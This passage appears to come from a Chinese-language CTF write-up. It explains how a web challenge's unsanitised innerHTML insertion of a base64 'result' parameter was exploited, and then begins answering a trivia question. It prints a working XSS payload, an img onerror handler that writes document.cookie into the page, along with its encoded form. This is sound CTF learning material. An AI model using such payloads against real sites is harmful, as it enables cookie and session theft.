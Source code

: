 将GET请求参数`result`的值`base64`解码后通过`innerHTML`插入，妥妥的XSS啊（实际上是研究了半天bot源码无果后才看网页源码的。。。）

刚开始企图外带`cookie`，但是发现一旦访问自己的服务器程序就被Kill了

首先猜测后端可能添加了标签过滤，或者根本无法解析标签，但是经过测试后发现应该是题目环境无法访问外网

但注意最后会输出姓名以及成绩信息，因此直接将`cookie`填充到在`score`中

````html
123:<img src=1 onerror="document.getElementById('score').innerHTML=document.cookie;">
````

`base64`加`URL`编码后

```base64
MTIzOjxpbWcgc3JjPTEgb25lcnJvcj0iZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoJ3Njb3JlJykuaW5uZXJIVE1MPWRvY3VtZW50LmNvb2tpZTsiPg%3D%3D
```

![calcu-flag](./assets/calcu-flag.png)



> 其他两道Web题看到解出来的只有十几人，那就不打扰了🏳

# General

## 猫咪问答喵

> 1

直接搜索`中国科学技术大学 NEBULA 战队`，[这个网页](https://cybersec.ustc.edu.cn/2022/0826/c23847a565848/page.htm)中有成立时间![miao-1](./assets/miao-1.png)

